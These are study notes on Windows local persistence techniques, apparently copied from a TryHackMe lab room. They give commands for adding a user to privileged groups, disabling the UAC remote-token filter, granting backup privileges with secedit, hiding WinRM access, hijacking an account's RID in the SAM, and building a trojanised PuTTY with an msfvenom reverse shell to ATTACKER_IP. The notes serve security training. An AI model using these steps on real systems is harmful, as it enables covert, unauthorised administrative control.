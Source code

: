 # Assign Group Memberships

* The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:

```
net localgroup administrators jack /add
```

* Can also use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to **read/write any file or registry key** on the system, ignoring any configured DACL.

```
net localgroup "Backup Operators" jack /add
```

* Since this is an unprivileged account, it **cannot RDP or WinRM** back to the machine unless we **add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM)** groups. We'll use WinRM.

```
net localgroup "Remote Management Users" jack /add
net localgroup "Remote Desktop Users" jack /add
```

* Check the groups and make sure they are not disabled

```
whoami /groups
GROUP INFORMATION
-----------------
Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
```

* This is due to **User Account Control (UAC)**. One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session, if you are using WinRM, you are confined to a limited access token with no administrative privileges.
* Disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

### Special Privileges and Security Descriptors

* A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership.
* Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself.
* Complete list of all privileges:
* https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
* In the case of the Backup Operators group, it has the following two privileges assigned by default:
* `SeBackupPrivilege`: The user can read any file in the system, ignoring any DACL in place.
* `SeRestorePrivilege`: The user can write any file in the system, ignoring any DACL in place.
* We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:

```
secedit /export /cfg config.inf
```

* We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:
* ![765671a0355e2260c44e5a12a10f090e](https://user-images.githubusercontent.com/75596877/180827452-97d0b2b3-cd89-459f-95ee-4d5276a41516.png)
* We finally convert the `.inf` file into a `.sdb` file which is then used to load the configuration back into the system:

```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```

* You should now have a user with equivalent privileges to any `Backup Operator`. The user still can't log into the system via WinRM, so let's do something about it.
* Instead of adding the user to the `Remote Management Users` group, we'll change the security descriptor associated with the WinRM service to allow `jack` to connect.
* Think of a security descriptor as an ACL but applied to other system facilities.
* To open the configuration window for WinRM's security descriptor, you can use the following command in **Powershell (you'll need to use the GUI session for this)**:

```
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

* This will open a window where you can add `jack` and assign it full privileges to connect to WinRM:
* ![380c80b98c4d1f8c2149ef72427cfeb0](https://user-images.githubusercontent.com/75596877/180828110-e2645cd4-a708-4e8c-b4bf-186ab3d3749c.png)
* Notice that for this user to work with the given privileges fully, you'd have to change the `LocalAccountTokenFilterPolicy` registry key
* If you check your user's group memberships, it will look like a regular user. Nothing suspicious at all!

```
net user jack
User name                    jack

Local Group Memberships      *Users
Global Group memberships     *None
```

### RID Hijacking

* When a user is created, an identifier called Relative ID (RID) is assigned to them.
* The `RID` is simply a numeric identifier representing the user across the system. When a user logs on, the `LSASS` process gets its `RID` from the `SAM` registry hive and creates an access token associated with that `RID`.
* If we can tamper with the registry value, we can make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
* In any Windows system, the default Administrator account is assigned the `RID = 500`, and regular users usually have `RID >= 1000`.

```
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
--snip--
```

* Now we only have to assign the `RID=500` to `jack`. To do so, we need to access the `SAM` using `Regedit`. The `SAM` is restricted to the `SYSTEM` account only, so even the `Administrator` won't be able to edit it. To run `Regedit` as `SYSTEM`, we will use `psexec`.
* `PsExec64.exe -i -s regedit` From Regedit, we will go to:
* `HKLM\SAM\SAM\Domains\Account\Users\`
* We need to search for a key with its `RID` in hex `(1010 = 0x3F2)`. Under the corresponding key, there will be a value called `F`, which holds the user's effective `RID` at position `0x30`:
* ![d630140974989748ebcf150ba0696d14](https://user-images.githubusercontent.com/75596877/180829367-5257c90e-37bc-4773-9ae2-d1a9bbb0fdc5.png)
* Notice the RID is stored using little-endian notation, so its bytes appear reversed.
* We will now replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), switching around the bytes (F401):
* ![8f2072b6d13b7343cf7b890586703ddf](https://user-images.githubusercontent.com/75596877/180829481-acd6a81c-fb14-480b-92c8-aa41539dc9f3.png)
* The next time `jack` logs in, `LSASS` will associate it with the same `RID` as Administrator and grant them the same privileges.

### Executable Files

* If you find any executable laying around the desktop, the chances are high that the user might use it frequently.
* Suppose we find a shortcut to `PuTTY` lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```



#### Credit:

All credit to the content of this page goes to the original author

* https://tryhackme.com/room/windowslocalpersistence&#x20;
* https://tryhackme.com/p/munra
* https://tryhackme.com/p/tryhackme

```
```
